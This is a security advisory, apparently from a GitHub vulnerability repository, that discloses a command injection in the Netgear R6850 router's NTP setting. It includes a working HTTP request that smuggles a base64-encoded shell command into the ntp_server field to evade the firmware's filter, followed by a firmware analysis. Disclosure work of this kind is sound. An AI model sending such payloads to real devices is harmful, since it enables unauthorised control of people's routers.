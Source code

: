 # Netgear-R6850 V1.1.0.88 Command Injection(ntp_server)

![image-20240319114656029](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319114656029.png)

## Overview

```
* Type: Command Injection
* Supplier: Netgear (https://www.netgear.com/)
* Product: R6850 — AC2000 Smart WiFi Router
* Affect version: (lastest) 1.1.0.88
* Firmware download:https://www.downloads.netgear.com/files/GDC/R6850/R6850_V1.1.0.88.zip
```

## Vulnerability Description

When deal with  `ntp_setting` request,`ntpserver` parameter is vulnerable to OS command injection.

### POC

The effect of executing the "touch home/cmdi1.txt" command

![image-20240319145515451](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319145515451.png)

Due to filtering issues, base64 ciphertext injection is used

![image-20240319145649975](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319145649975.png)

If encryption is not performed, a filtering rule will be triggered, resulting in 403 Forbidden instead

![image-20240319145749059](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319145749059.png)

```http
POST /setup.cgi?id=d7dd745acc849118 HTTP/1.1
Host: 192.168.1.1
Content-Length: 197
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/FW_ntp.htm&todo=cfg_init
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: SESSION_ID_VIGOR=7:08024DADCBD0CCB4D4B176EEB674981C; SessionID_R3=rApOE9t2JImnfAH6ea1G8fW1n3SEVW0TjokH470PM0LqC0taSt3lqkuAmfCGaFlkVCPPhkpQyi6KsywsYRwkxZrIPXYO0AMv9b0ds5t7S4UiM9UFKrIvFNoRFcX4hdcs; XSRF_TOKEN=152587063; sessionid=sid1038xxx450163xxx1031695426x
Connection: close

use_ntpserver=other&ntp_server=%26dG91Y2ggaG9tZS9jb21kaTEudHh0%26&time_zone=%2B8a&h_time_zone=%2B8a&h_adjust=disable&h_use_ntpserver=other&todo=save&this_file=FW_ntp.htm&next_file=ntp_wait.htm&SID=
```

## Analysis

In the main function of `setup. cgi`, all requests with `setup. cgi` in the URL will be processed by the setup_main function

![image-20240319134651718](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319134651718.png)

It should be noted that a filter (`FindForbidValue`) was applied at the beginning of the function, filtering out some characters and specific functions. Here, we need to bypass the filtering rules and use base64 encryption for command injection

![image-20240319134758233](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319134758233.png)

Through packet capture, it can be seen that todo=save, this_file=FW_ntp.htm, so analyze the save function.

In line 816, it can be seen that when this file=FW_ntp.htm, it will go to COMMAND (v54), thus calling `rc` to execute `ntp restart`

![image-20240319151038361](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319151038361.png)

![image-20240319151131819](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319151131819.png)

In the `sub_68EFC` function, the value of `ntp_sever` will be set, which can be controlled by the user by modifying the post package body

![image-20240319150321010](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319150321010.png)

`rc `will call `rc_apps` and find the sub_44DAE8 function in `rc_apps`, which executes `ntp restart`

![image-20240319151445874](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319151445874.png)

In `ntp restart`, `start_ntp` will be called, which will cause the `ntp_server` parameter command to execute

![image-20240319151625444](https://github.com/funny-mud-peee/IoT-vuls/blob/main/netgear%20R6850/img/image-20240319151625444.png)
